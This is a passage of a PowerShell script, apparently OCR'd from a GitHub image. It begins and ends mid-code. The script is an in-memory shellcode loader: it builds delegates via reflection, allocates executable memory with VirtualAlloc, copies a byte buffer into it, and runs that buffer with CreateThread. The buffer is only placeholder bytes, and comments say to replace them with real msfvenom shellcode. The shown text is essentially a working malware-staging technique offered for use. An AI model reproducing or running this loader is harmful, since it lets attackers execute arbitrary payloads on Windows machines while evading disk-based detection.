   ```powershell
        $domain = [AppDomain]::CurrentDomain
        $assemblyBuilder = $domain.DefineDynamicAssembly($assemblyName, [System.Reflection.Emit.AssemblyBuilderAccess]::Run)
        $moduleBuilder = $assemblyBuilder.DefineDynamicModule('InMemoryModule', $false)
        $typeBuilder = $moduleBuilder.DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
    
        $constructorBuilder = $typeBuilder.DefineConstructor(
            'RTSpecialName, HideBySig, Public',
            [System.Reflection.CallingConventions]::Standard,
            $funcSig
        )
        $constructorBuilder.SetImplementationFlags('Runtime, Managed')
    
        $methodBuilder = $typeBuilder.DefineMethod(
            'Invoke',
            'Public, HideBySig, NewSlot, Virtual',
            $returnType,
            $funcSig
        )
        $methodBuilder.SetImplementationFlags('Runtime, Managed')
    
        return $typeBuilder.CreateType()
    }
    
    # ----------------------------
    # 3. Allocate Memory for Shellcode
    # ----------------------------
    $VirtualAlloc = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer(
        (LookupFunc kernel32.dll VirtualAlloc),
        (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))
    )
    
    # 0x1000 = 4096 bytes (adjust for shellcode size)
    # 0x3000 = MEM_COMMIT | MEM_RESERVE
    # 0x40 = PAGE_EXECUTE_READWRITE
    $mem = $VirtualAlloc.Invoke([IntPtr]::Zero, 0x1000, 0x3000, 0x40)
    
    # ----------------------------
    # 4. Shellcode Payload (Example: MessageBox Shellcode)
    # Replace this with actual payload (e.g., msfvenom shellcode)
    # ----------------------------
    [Byte[]] $buf = @(0x90,0x90,0x90,0xcc)  # Replace with real shellcode
    
    # Copy to allocated memory
    [System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $mem, $buf.Length)
    
    # ----------------------------
    # 5. CreateThread to Execute Shellcode
    # ----------------------------
    $CreateThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer(
        (LookupFunc kernel32.dll CreateThread),
        (getDelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))
    )
    
    $threadHandle = $CreateThread.Invoke([IntPtr]::Zero, 0, $mem, [IntPtr]::Zero, 0, [IntPtr]::Zero)
    
    # ----------------------------
    # 6. Wait for Shellcode to Finish
    # ----------------------------
    $WaitForSingleObject = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer(
        (LookupFunc kernel32.dll WaitForSingleObject),
  ```
